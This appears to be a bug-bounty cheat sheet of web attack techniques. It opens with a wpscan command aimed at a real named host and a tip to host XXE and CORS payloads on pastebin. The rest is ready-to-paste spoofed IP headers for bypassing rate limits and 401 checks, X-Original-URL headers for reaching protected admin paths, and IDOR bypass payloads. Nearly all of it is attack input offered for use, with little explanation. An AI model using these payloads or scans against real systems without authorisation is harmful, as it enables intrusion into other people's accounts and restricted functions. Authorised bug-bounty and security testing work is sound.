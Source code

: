  docker run -it --rm wpscanteam/wpscan --url https://press-smoke.hulu.com/




 If you want to convert josn in xml for xml injection testin then use following site



=====>>>>> https://www.freeformatter.com/json-to-xml-converter.html
 
 
 >>>>>>>  Use pastbin for host some data linke html , xxe, cors
 
================================================================================================




 
Some rate limiting bypass::::::

X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Forwarded-Host: 127.0.0.1

Some 401 bypass:

X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwarded: 127.0.0.1
Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
X-Original-URL: 127.0.0.1
Client-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
Cluster-Client-IP: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
Host: localhost

If the path is protected you can try to bypass the path protection using these other headers:


X-Original-URL: /admin/console
X-Rewrite-URL: /admin/console



=================================================================================================
https://bugbountyhunter.com/

https://danielmiessler.com/projects/webappsec_testing_resources/     Methodology For bugs



0  >>>> IDOR bypass for 401/403


       >> Wrap ID with an array {“id”:111} --> {“id”:[111]}
       >> JSON wrap {“id”:111} --> {“id”:{“id”:111}}
       >> Send ID twice URL?id=<LEGIT>&id=<VICTIM>
       >> Send wildcard {""user_id"":""*""}

